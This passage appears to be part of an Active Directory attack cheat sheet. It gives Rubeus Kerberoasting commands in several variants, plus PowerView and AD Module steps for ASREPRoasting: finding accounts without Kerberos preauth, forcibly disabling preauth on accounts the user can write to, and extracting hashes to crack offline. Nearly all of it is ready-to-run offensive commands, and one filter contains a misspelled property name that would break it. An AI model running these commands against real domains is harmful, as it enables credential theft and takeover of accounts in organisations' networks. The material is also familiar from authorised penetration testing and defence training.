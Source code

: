 Kerberoasting while being "OPSEC" safe, essentially while not try to roast AES enabled accounts

```text
Rubeus.exe kerberoast /outfile:<fileName> /domain:<DomainName> /rc4opsec
```

Kerberoast AES enabled accounts

```text
Rubeus.exe kerberoast /outfile:<fileName> /domain:<DomainName> /aes
```

Kerberoast spesific user account

```text
Rubeus.exe kerberoast /outfile:<fileName> /domain:<DomainName> /user:<username> /simple
```

#### Kerberoast by specifying the authentication credentials

```text
Rubeus.exe kerberoast /outfile:<fileName> /domain:<DomainName> /creduser:<username> /credpassword:<password>
```

### ASREPRoast

_What is this?:_  If a domain user account does not require kerberos preauthentication, we can request a valid TGT for this account without even having domain credentials, extract the encrypted  
blob and brute force it offline.

* PowerView: `Get-DomainUser -PreauthNotRequired -Verbose`
* AD Module: `Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth`

Forcefully Disable Kerberos Preauth on an account i have Write Permissions or more!

Check for interesting permissions on accounts:

**Hint:** We add a filter e.g. RDPUsers to get "User Accounts" not Machine Accounts, because Machine Account hashes are not crackable!

PowerView:

```text
Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentinyReferenceName -match "RDPUsers"}
Disable Kerberos Preauth:
Set-DomainObject -Identity <UserAccount> -XOR @{useraccountcontrol=4194304} -Verbose
Check if the value changed:
Get-DomainUser -PreauthNotRequired -Verbose
```

Finally, execute the attack using the [ASREPRoast](https://github.com/HarmJ0y/ASREPRoast) tool.

Get a specific Accounts hash:

```text
Get-ASREPHash -UserName <UserName> -Verbose
```
